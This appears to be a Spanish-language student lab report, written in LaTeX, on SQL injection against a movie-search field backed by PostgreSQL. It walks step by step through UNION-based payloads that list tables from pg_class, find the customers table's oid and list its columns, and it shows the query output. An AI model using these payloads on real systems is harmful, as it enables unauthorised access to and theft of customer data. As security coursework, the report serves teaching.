 \documentclass{article}
\begin{document}
Empezamos con una prueba sencilla: ver que efectivamente el campo de búsqueda es vulnerabble a inyecciones SQL con \texttt{2000' OR columna\_anio = '2005'}. Los resultados son películas de los años 2000 y 2005, así que efectivamente es vulnerable.

El siguiente paso es ver qué tablas existen en la base de datos, y para ello hay que acceder a la tabla \texttt{pg\_class}. Por simplificar, no sacamos todas las relaciones sino sólo las claves primarias. Esto nos da una pista rápida sobre las tablas importantes y nos permite evitar el paso adicional de buscar el \textit{oid} del esquema público de PostgreSQL.

Usamos para ello el siguiente comando.

\begin{Verbatim}[frame = lines]
2000' AND 0=1 UNION SELECT relname AS movietitle FROM pg_class
	WHERE relname  LIKE '%_pkey';--
\end{Verbatim}

Añadimos \texttt{AND 0 = 1} para evitar que apareciesen resultados de películas, y después usamos el operador \texttt{UNION} para concatenar los resultados de la consulta que queremos hacer en realidad. El resultado de esa consulta fue el siguiente:

\begin{Verbatim}
    customers_pkey
    orders_pkey
    imdb_movielanguages_pkey
    imdb_actormovies_pkey
    products_pkey
    imdb_actors_pkey
    imdb_directors_pkey
    imdb_moviegenres_pkey
    imdb_movies_pkey
    imdb_moviecountries_pkey
    imdb_directormovies_pkey
    inventory_pkey
\end{Verbatim}

Aquí vimos que probablemente la tabla \texttt{customers}, asociada a la clave primaria \texttt{customers\_pkey}, es la que nos interesaba. Confirmamos que esa tabla existía y obtenemos su \textit{oid} con

\begin{Verbatim}[frame = lines]
2000' AND 0=1 UNION SELECT oid || ',' || relname AS movietitle
	FROM pg_class WHERE RELNAME='customers';--
\end{Verbatim}

La salida \texttt{30345,customers} nos confirma que la tabla existe y nos da su \textit{oid}, con lo que podemos encontrar sus columnas. Para ello usamos la siguiente cadena

\begin{Verbatim}[frame = lines]
2000' AND 0=1 UNION SELECT attname AS movietitle
	FROM pg_attribute WHERE attrelid=30345;--
\end{Verbatim}
\end{document}
